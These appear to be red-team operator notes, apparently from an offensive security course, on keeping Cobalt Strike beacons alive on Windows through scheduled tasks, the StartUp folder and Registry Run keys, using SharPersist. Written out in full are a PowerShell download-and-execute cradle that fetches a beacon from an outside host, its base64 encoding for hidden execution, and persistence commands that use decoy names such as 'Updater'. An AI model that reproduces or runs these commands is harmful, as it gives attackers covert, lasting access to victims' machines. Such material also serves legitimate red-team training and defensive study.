 # Task Scheduler persistence

Create base64 command to download and execute your beacon

```bash
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
...(copy contents)
```

Create a task through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAA..." -n "Updater" -m add -o hourly
```

---

# StartUp Folder persistence

Create base64 command to download and execute your beacon

```bash
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
...(copy contents)
```

Create a task through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAA..." -f "UserEnvSetup" -m add
```

---

# Registry Autorun persistence

Create a http payload in cobalt strike

```bash
upload C:\Payloads\http_x64.exe
mv http_x64.exe Updater.exe
```

Create an AutoRun through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\Windows\Tasks\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```

---

# Hunting for COM Hijacks

```bash
https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38149212-hunting-for-com-hijacks
```

---

# TODO (certificates)
